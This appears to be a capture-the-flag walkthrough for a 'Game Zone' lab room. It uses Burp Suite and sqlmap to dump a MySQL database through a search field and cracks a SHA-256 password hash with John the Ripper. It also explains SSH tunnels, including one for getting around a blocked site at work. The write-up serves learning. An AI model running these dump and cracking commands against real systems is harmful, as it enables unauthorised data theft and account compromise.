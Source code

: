 # Game Zone

## Task 3 

- First intercept the search bar by using Burp Suite.
- Output the request from Burp Suite to the text file
- Run following command
```bash
# -r uses the intercepted request you saved earlier
# --dbms tells SQLMap what type of database management system it is
# --dump attempts to outputs the entire database
sqlmap -r request.txt --dbms=mysql --dump
```

## Task 4 

Cracking the hash

`ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14`

```bash 
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256
```

## Task 5 

Reverse SSH port forwarding specifies that the given port on the remote server host is to be forwarded to the given host and port on the local side.

-L is a local tunnel (YOU <-- CLIENT). If a site was blocked, you can forward the traffic to a server you own and view it. For example, if imgur was blocked at work, you can do `ssh -L 9000:imgur.com:80 user@example.com`. Going to localhost:9000 on your machine, will load imgur traffic using your other server.

-R is a remote tunnel (YOU --> CLIENT). You forward your traffic to the other server for others to view. Similar to the example above, but in reverse.


For finding socket running on a host we can run `ss -tulpn`.

```
Argument	Description
-t	        Display TCP sockets
-u	        Display UDP sockets
-l	        Displays only listening sockets
-p      	Shows the process using the socket
-n      	Doesn't resolve service names
``````

